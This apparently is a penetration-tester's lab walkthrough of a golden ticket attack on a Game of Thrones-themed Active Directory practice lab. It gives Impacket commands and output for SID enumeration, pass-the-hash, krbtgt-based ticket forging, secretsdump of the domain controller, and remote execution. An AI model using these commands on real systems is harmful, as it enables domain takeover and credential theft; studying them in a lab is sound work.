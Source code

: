# 5. Golden Ticket

## Finding SID

`lookupsid.py -hashes aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8 NORTH/EDDARD.STARK@10.4.10.22`

**Result:**

```
[*] Brute forcing SIDs at 10.4.10.22
[*] StringBinding ncacn_np:10.4.10.22[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-3779674392-1109536343-705869415
500: CASTELBLACK\Administrator (SidTypeUser)
501: CASTELBLACK\Guest (SidTypeUser)
503: CASTELBLACK\DefaultAccount (SidTypeUser)
504: CASTELBLACK\WDAGUtilityAccount (SidTypeUser)
513: CASTELBLACK\None (SidTypeGroup)
1000: CASTELBLACK\localuser (SidTypeUser)
1001: CASTELBLACK\SQLServer2005SQLBrowserUser$CASTELBLACK (SidTypeAlias)
```

---------------

**Child Domain SID:**

`lookupsid.py -hashes aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8 NORTH/EDDARD.STARK@10.4.10.11`

**Result:**

```
[*] Domain SID is: S-1-5-21-58534182-3680670537-1634125476
500: NORTH\Administrator (SidTypeUser)
501: NORTH\Guest (SidTypeUser)
502: NORTH\krbtgt (SidTypeUser)
512: NORTH\Domain Admins (SidTypeGroup)
513: NORTH\Domain Users (SidTypeGroup)
514: NORTH\Domain Guests (SidTypeGroup)
515: NORTH\Domain Computers (SidTypeGroup)
516: NORTH\Domain Controllers (SidTypeGroup)
517: NORTH\Cert Publishers (SidTypeAlias)
520: NORTH\Group Policy Creator Owners (SidTypeGroup)
521: NORTH\Read-only Domain Controllers (SidTypeGroup)
522: NORTH\Cloneable Domain Controllers (SidTypeGroup)
525: NORTH\Protected Users (SidTypeGroup)
526: NORTH\Key Admins (SidTypeGroup)
553: NORTH\RAS and IAS Servers (SidTypeAlias)
571: NORTH\Allowed RODC Password Replication Group (SidTypeAlias)
572: NORTH\Denied RODC Password Replication Group (SidTypeAlias)
1000: NORTH\localuser (SidTypeUser)
1001: NORTH\WINTERFELL$ (SidTypeUser)
1102: NORTH\DnsAdmins (SidTypeAlias)
1103: NORTH\DnsUpdateProxy (SidTypeGroup)
1104: NORTH\SEVENKINGDOMS$ (SidTypeUser)
1105: NORTH\CASTELBLACK$ (SidTypeUser)
1106: NORTH\Stark (SidTypeGroup)
1107: NORTH\Night Watch (SidTypeGroup)
1108: NORTH\Mormont (SidTypeGroup)
1109: NORTH\AcrossTheSea (SidTypeAlias)
1110: NORTH\arya.stark (SidTypeUser)
1111: NORTH\eddard.stark (SidTypeUser)
1112: NORTH\catelyn.stark (SidTypeUser)
1113: NORTH\robb.stark (SidTypeUser)
1114: NORTH\sansa.stark (SidTypeUser)
1115: NORTH\brandon.stark (SidTypeUser)
1116: NORTH\rickon.stark (SidTypeUser)
1117: NORTH\hodor (SidTypeUser)
1118: NORTH\jon.snow (SidTypeUser)
1119: NORTH\samwell.tarly (SidTypeUser)
1120: NORTH\jeor.mormont (SidTypeUser)
1121: NORTH\sql_svc (SidTypeUser)
```

**Parent Domain SID:**

`lookupsid.py -hashes aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8 NORTH/EDDARD.STARK@10.4.10.10`

```
498: SEVENKINGDOMS\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: SEVENKINGDOMS\Administrator (SidTypeUser)
501: SEVENKINGDOMS\Guest (SidTypeUser)
502: SEVENKINGDOMS\krbtgt (SidTypeUser)
512: SEVENKINGDOMS\Domain Admins (SidTypeGroup)
513: SEVENKINGDOMS\Domain Users (SidTypeGroup)
514: SEVENKINGDOMS\Domain Guests (SidTypeGroup)
515: SEVENKINGDOMS\Domain Computers (SidTypeGroup)
516: SEVENKINGDOMS\Domain Controllers (SidTypeGroup)
517: SEVENKINGDOMS\Cert Publishers (SidTypeAlias)
518: SEVENKINGDOMS\Schema Admins (SidTypeGroup)
519: SEVENKINGDOMS\Enterprise Admins (SidTypeGroup)
520: SEVENKINGDOMS\Group Policy Creator Owners (SidTypeGroup)
521: SEVENKINGDOMS\Read-only Domain Controllers (SidTypeGroup)
522: SEVENKINGDOMS\Cloneable Domain Controllers (SidTypeGroup)
525: SEVENKINGDOMS\Protected Users (SidTypeGroup)
526: SEVENKINGDOMS\Key Admins (SidTypeGroup)
527: SEVENKINGDOMS\Enterprise Key Admins (SidTypeGroup)
553: SEVENKINGDOMS\RAS and IAS Servers (SidTypeAlias)
571: SEVENKINGDOMS\Allowed RODC Password Replication Group (SidTypeAlias)
572: SEVENKINGDOMS\Denied RODC Password Replication Group (SidTypeAlias)
1000: SEVENKINGDOMS\localuser (SidTypeUser)
1001: SEVENKINGDOMS\KINGSLANDING$ (SidTypeUser)
1102: SEVENKINGDOMS\DnsAdmins (SidTypeAlias)
1103: SEVENKINGDOMS\DnsUpdateProxy (SidTypeGroup)
1104: SEVENKINGDOMS\NORTH$ (SidTypeUser)
1105: SEVENKINGDOMS\ESSOS$ (SidTypeUser)
1106: SEVENKINGDOMS\Lannister (SidTypeGroup)
1107: SEVENKINGDOMS\Baratheon (SidTypeGroup)
1108: SEVENKINGDOMS\Small Council (SidTypeGroup)
1109: SEVENKINGDOMS\DragonStone (SidTypeGroup)
1110: SEVENKINGDOMS\KingsGuard (SidTypeGroup)
1111: SEVENKINGDOMS\DragonRider (SidTypeGroup)
1112: SEVENKINGDOMS\AcrossTheNarrowSea (SidTypeAlias)
1113: SEVENKINGDOMS\tywin.lannister (SidTypeUser)
1114: SEVENKINGDOMS\jaime.lannister (SidTypeUser)
1115: SEVENKINGDOMS\cersei.lannister (SidTypeUser)
1116: SEVENKINGDOMS\tyron.lannister (SidTypeUser)
1117: SEVENKINGDOMS\robert.baratheon (SidTypeUser)
1118: SEVENKINGDOMS\joffrey.baratheon (SidTypeUser)
1119: SEVENKINGDOMS\renly.baratheon (SidTypeUser)
1120: SEVENKINGDOMS\stannis.baratheon (SidTypeUser)
1121: SEVENKINGDOMS\petyer.baelish (SidTypeUser)
1122: SEVENKINGDOMS\lord.varys (SidTypeUser)
1123: SEVENKINGDOMS\maester.pycelle (SidTypeUser)
```

**So, the SIDs are:** 

**Child Domain:** `S-1-5-21-58534182-3680670537-1634125476`
**Parent Domain:** `S-1-5-21-3848810514-1890589760-83533814`
**krbtgt hash:** `34b24f1a67d914d8ef876f8bd02f3f0b`
**krbtgt aes:** `badd865cdb6de2c5ee6e1d2baa1e02ff52b2bee490a90f1ee3d2624ad9aa9580`


`ticketer.py -nthash 34b24f1a67d914d8ef876f8bd02f3f0b -domain-sid S-1-5-21-58534182-3680670537-1634125476 -domain north.sevenkingdoms.local -extra-sid S-1-5-21-3848810514-1890589760-83533814 goldenuser`

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Creating basic skeleton ticket and PAC Infos
/home/kali/.local/bin/ticketer.py:141: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  aTime = timegm(datetime.datetime.utcnow().timetuple())
[*] Customizing ticket for north.sevenkingdoms.local/goldenuser
/home/kali/.local/bin/ticketer.py:600: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  ticketDuration = datetime.datetime.utcnow() + datetime.timedelta(hours=int(self.__options.duration))
/home/kali/.local/bin/ticketer.py:718: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encTicketPart['authtime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
/home/kali/.local/bin/ticketer.py:719: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encTicketPart['starttime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
/home/kali/.local/bin/ticketer.py:843: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encRepPart['last-req'][0]['lr-value'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in goldenuser.ccache
```



Parent domain NTDS
`secretsdump -k -no-pass -just-dc-ntlm north.sevenkingdoms.local/goldenuser@kingslanding.sevenkingdoms.local   `

**Working Golden Ticket**
`ticketer.py -aesKey badd865cdb6de2c5ee6e1d2baa1e02ff52b2bee490a90f1ee3d2624ad9aa9580 -domain-sid S-1-5-21-58534182-3680670537-1634125476 -extra-pac -domain north.sevenkingdoms.local -user-id 1111 eddard.stark`

`export KRB5CCNAME=/home/kali/eddard.stark.ccache`

`wmiexec.py -k -no-pass north.sevenkingdoms.local/eddard.stark@winterfell.north.sevenkingdoms.local`

**GOLDEN TICKET MIMIKATZ**
**Upload Mimikatz to target**

Use smbvclient to pass the hash with Robb.Stark and upload the mimikatz file.

`smbclient.py -hashes :831486ac7f26860c9e2f51ac91e1a07a NORTH/robb.stark@10.4.10.22`

Logn in with PSEXEC and pass-the-hash:

`psexec.py north.sevenkingdoms.local/eddard.stark@10.4.10.22 -hashes aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8`